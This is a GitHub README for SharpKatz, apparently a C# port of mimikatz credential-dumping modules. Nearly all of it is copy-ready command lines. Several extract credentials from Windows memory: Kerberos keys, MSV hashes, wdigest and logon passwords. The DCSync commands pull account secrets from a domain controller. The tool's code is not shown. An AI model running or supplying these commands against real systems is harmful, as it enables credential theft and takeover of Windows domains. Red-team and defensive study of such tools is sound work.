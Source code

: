 # SharpKatz
Porting of mimikatz sekurlsa::logonpasswords,  sekurlsa::ekeys and lsadump::dcsync

**Usage**

Ekeys

```SharpKatz.exe --Command ekeys```

Msv

```SharpKatz.exe --Command msv```

Kerberos

```SharpKatz.exe --Command kerberos```

Tspkg

```SharpKatz.exe --Command tspkg```

Credman

```SharpKatz.exe --Command credman```

Wdigest

```SharpKatz.exe --Command wdigest```

Logonpasswords

```SharpKatz.exe --Command logonpasswords```

DCSync

```SharpKatz.exe --Command dcsync --User user --Domain userdomain --DomainController dc```
```SharpKatz.exe --Command dcsync --Guid guid --Domain userdomain --DomainController dc```
```SharpKatz.exe --Command dcsync --Domain userdomain --DomainController dc```

